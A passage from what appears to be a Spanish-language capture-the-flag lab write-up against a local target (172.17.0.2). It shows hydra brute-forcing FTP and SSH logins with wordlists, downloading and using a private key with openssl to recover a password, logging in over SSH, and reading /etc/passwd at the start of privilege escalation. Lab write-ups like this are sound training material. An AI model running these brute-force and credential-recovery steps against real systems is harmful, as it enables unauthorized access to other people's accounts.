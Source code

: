 Ahora que sabemos el nombre del usuario del servicio **ftp** realizamos un ataque de fuerza bruta
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f ftp://172.17.0.2
```

Tenemos las credenciales de acceso para el servicio:
```bash
[21][ftp] host: 172.17.0.2   login: admin   password: banana
```

## Enumeracion de [Servicio  FTP]
Ahora volvemos a enumerar este servicio:
Nos conectamos en el servicio encontrando la siguente llave para despues descargarla:
```bash
ftp> get private_key.pem
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Para desencriptar `private_key.pem` y `private.txt`, sigue esta guía sistemática. La estrategia depende del tipo de encriptación usada:

##### 🔑 1. Para `private_key.pem` (clave privada RSA)
**Normalmente están protegidas con contraseña**.
```bash
openssl pkeyutl --decrypt -in private.txt -out private_text.txt -inkey private_key.pem
```

Tenemos una posible contrasena en el archivo final: **private_text.txt**:
```bash
demogorgon
```

Ahora lanzaremos un ataque de fuerza bruta para encontrar un posible usuario para esta contrasena:
```bash
hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -p demogorgon -f -t 64 ssh://172.17.0.2
```
### Intrusion
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh mwheeler@172.17.0.2 # ( demogorgon )
```

---
## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
cat /etc/passwd | grep "sh"
```
